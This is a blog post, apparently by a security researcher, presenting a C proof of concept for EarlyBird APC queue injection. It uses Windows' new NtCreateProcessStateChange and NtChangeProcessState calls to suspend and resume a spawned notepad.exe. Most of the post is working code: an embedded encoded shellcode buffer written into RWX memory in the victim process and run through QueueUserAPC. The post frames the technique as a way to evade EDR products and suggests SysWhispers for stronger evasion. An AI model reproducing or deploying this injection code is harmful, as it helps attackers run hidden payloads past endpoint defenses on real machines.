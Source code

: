 ```yaml
---
layout: post
title: EarlyBird APC Queue Injection With a ProcessStateChange Twist
tags: []
---
```




Relatively recently, Yarden Shafir made a blog post about a new way to evade the EDRs for process injection. In the blog post, Yarden mentions that there are new added features in the recent Windows 10 build(Insider) and Windows 11 as well. Some of them are NtCreateProcessStateChange/ NtCreateThreadStateChange and NtChangeProcessState/NtChangeThreadState.

These WINAPI calls were added to resolve the issue of what happens if a process suspends a thread and then terminates it before resuming it. To quote Yarden:

Unless some other part of the system realizes what happened, the thread will remain suspended forever and will never resume its execution. To solve that, this new feature allows suspending and resuming threads and processes through the new object types, which will keep track of the suspension state of the threads or processes. That way, when the object is destroyed (for example, when the process that created it is terminated), the system will reset the state of the target process or thread by suspending or resuming it as needed.

Yarden has made a PoC at the bottom of the blog potentially continuing a suspended thread, due to these aforementioned new WINAPI calls, a suspended application can now resume or reset. By using DuplicateHandle and getting the second notepad a handle to the first suspended notepad, the suspended notepad remains as is until the second notepad closes and resumes the first notepad without using ResumeThread.


Evading common process injection patterns for WINAPI calls can definitely trick some EDRs. Although I took a different approach in my PoC and followed the pattern of EarlyBird APC Queue Injection and instead of creating a suspended process, allocate shellcode and ResumeThread, I created a process, suspended it with NtCreateProcessStateChange, allocated the shellcode and then changed the suspended state back with NtChangeProcessState to continue the primary thread.

Obviously the below code will be detected due to the shellcode, VirtualAlloc, WriteProcessMemory, QueueUserAPC but SysWhispers can help you replace that will the ntdll's WINAPI calls for better results.

PoC:

[![](https://trickster0.files.wordpress.com/2021/08/poc.png?w=1024)](https://trickster0.files.wordpress.com/2021/08/poc.png)

<pre>
  <code class="C">

#include <Windows.h>
#include <stdio.h>
#include <winternl.h>

typedef NTSTATUS(__fastcall* NtCreateProcessStateChange)(OUT PHANDLE StateChangeHandle, IN ACCESS_MASK DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes, IN HANDLE ProcessHandle, IN INT Unknown);
typedef NTSTATUS(__fastcall* NtChangeProcessState)(IN HANDLE StateChangeHandle, IN HANDLE ProcessHandle, IN ULONG Action, IN ULONG64 Unknown1, IN ULONG64 Unknown2, IN ULONG64 Unknown3);

void main()
{
    HANDLE stateChangeHandle;
    PROCESS_INFORMATION procInfo;
    PROCESS_INFORMATION procInfo2;
    STARTUPINFO startInfo;
    BOOL result;
    NTSTATUS status;
    NtCreateProcessStateChange	pNtCreateProcessStateChange;
    NtChangeProcessState        pNtChangeProcessState;
    HMODULE                     hNtdll;
    unsigned char buf[] = "\x48\x31\xc9\x48\x81\xe9\xdd\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x4f\x6c\xaf\x32\x7e\xe4\xec\x88\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xb3\x24\x2c\xd6\x8e\x0c\x2c\x88\x4f\x6c\xee\x63\x3f\xb4\xbe\xd9\x19\x24\x9e\xe0\x1b\xac\x67\xda\x2f\x24\x24\x60\x66\xac\x67\xda\x6f\x24\x24\x40\x2e\xac\xe3\x3f\x05\x26\xe2\x03\xb7\xac\xdd\x48\xe3\x50\xce\x4e\x7c\xc8\xcc\xc9\x8e\xa5\xa2\x73\x7f\x25\x0e\x65\x1d\x2d\xfe\x7a\xf5\xb6\xcc\x03\x0d\x50\xe7\x33\xae\x6f\x6c\x00\x4f\x6c\xaf\x7a\xfb\x24\x98\xef\x07\x6d\x7f\x62\xf5\xac\xf4\xcc\xc4\x2c\x8f\x7b\x7f\x34\x0f\xde\x07\x93\x66\x73\xf5\xd0\x64\xc0\x4e\xba\xe2\x03\xb7\xac\xdd\x48\xe3\x2d\x6e\xfb\x73\xa5\xed\x49\x77\x8c\xda\xc3\x32\xe7\xa0\xac\x47\x29\x96\xe3\x0b\x3c\xb4\xcc\xc4\x2c\x8b\x7b\x7f\x34\x8a\xc9\xc4\x60\xe7\x76\xf5\xa4\xf0\xc1\x4e\xbc\xee\xb9\x7a\x6c\xa4\x89\x9f\x2d\xf7\x73\x26\xba\xb5\xd2\x0e\x34\xee\x6b\x3f\xbe\xa4\x0b\xa3\x4c\xee\x60\x81\x04\xb4\xc9\x16\x36\xe7\xb9\x6c\x0d\xbb\x77\xb0\x93\xf2\x7a\xc4\xe5\xec\x88\x4f\x6c\xaf\x32\x7e\xac\x61\x05\x4e\x6d\xaf\x32\x3f\x5e\xdd\x03\x20\xeb\x50\xe7\xc5\x14\x59\x2a\x19\x2d\x15\x94\xeb\x59\x71\x77\x9a\x24\x2c\xf6\x56\xd8\xea\xf4\x45\xec\x54\xd2\x0b\xe1\x57\xcf\x5c\x1e\xc0\x58\x7e\xbd\xad\x01\x95\x93\x7a\x51\x1f\x88\x8f\xa6\x2a\x14\xca\x32\x7e\xe4\xec\x88";
    SIZE_T shellSize = sizeof(buf);
    stateChangeHandle = nullptr;
    ZeroMemory(&startInfo, sizeof(startInfo));
    startInfo.cb = sizeof(startInfo);
    result = CreateProcess(L"C:\\Windows\\System32\\notepad.exe",NULL,NULL,NULL,FALSE,0,NULL,NULL,&startInfo,&procInfo);
    HANDLE victimProcess = procInfo.hProcess;
    HANDLE threadHandle = procInfo.hThread;
    hNtdll = GetModuleHandle(L"ntdll.dll");
    pNtCreateProcessStateChange = (NtCreateProcessStateChange)GetProcAddress(hNtdll, "NtCreateProcessStateChange");
    status = pNtCreateProcessStateChange(&stateChangeHandle, MAXIMUM_ALLOWED, NULL, procInfo.hProcess, 0);
    pNtChangeProcessState = (NtChangeProcessState)GetProcAddress(hNtdll, "NtChangeProcessState");
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 0, NULL, 0, 0);
    LPVOID shellAddress = VirtualAllocEx(victimProcess, NULL, shellSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    PTHREAD_START_ROUTINE apcRoutine = (PTHREAD_START_ROUTINE)shellAddress;
    WriteProcessMemory(victimProcess, shellAddress, buf, shellSize, NULL);
    QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
    status = pNtChangeProcessState(stateChangeHandle, procInfo.hProcess, 1, NULL, 0, 0);
}

  </code>
</pre>

Sources:



EarlyBird APC Queue Injection - https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection


NtCreateProcessChangeState Blog Post - https://windows-internals.com/thread-and-process-state-change/


NtCreateProcessChangeState gist example - https://gist.github.com/DownWithUp/80a3b7b6a198788e79d8b508463e9384
